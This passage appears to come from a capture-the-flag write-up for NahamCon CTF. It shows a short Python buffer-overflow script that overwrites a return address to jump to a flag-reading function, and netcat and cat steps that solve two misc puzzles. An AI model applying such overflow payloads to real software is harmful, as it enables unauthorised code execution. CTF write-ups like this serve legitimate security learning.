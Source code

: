 The next step is to identify a vulnerable function. Using Ghidra I found a function at `0x0040130e` which reads ./flag.txt and outputs it.

We can now get the flag with the following: 

```py
#!/usr/bin/python

vulnfunc = '\x0e\x13\x40\x00\x00\x00\x00\x00'
buff = 'A' * 497

print buff + vulnfunc
```

![DangerFlag]({{ site.url }}{{ site.baseurl }}/assets/Nahamconctf/dangerflag.jpg)

***

## Misc

### Vortex

* Clue: Will you find the flag, or get lost in the vortex?
* Points: 75
* Solves: 582

When we connect the output looks like random characters (like cat /dev/urandom).

We can redirect the output to a file then grep for the flag.

```bash
 nc jh2i.com 50017 > vortex.txt
```

```bash
 cat vortex.txt | grep flag

 flag{more_text_in_the_vortex}
 ```

***

### Fake File

* Clue: Wait... where is the flag?
* Points: 100
* Solves: 521

We connect to `nc jh2i.com 50026` We run ls -la to see all files, there seems to be a file named .. 

If we highlight and copy the line then look at it as hex we see the filename contains characters outside the ascii table, the filename in hex is `2e 2e e2 80 80`.

If we simply copy and paste the filename we can use cat:

```bash
user@host:/home/user$ cat .. 
cat .. 
flag{we_should_have_been_worried_about_u2k_not_y2k}
```
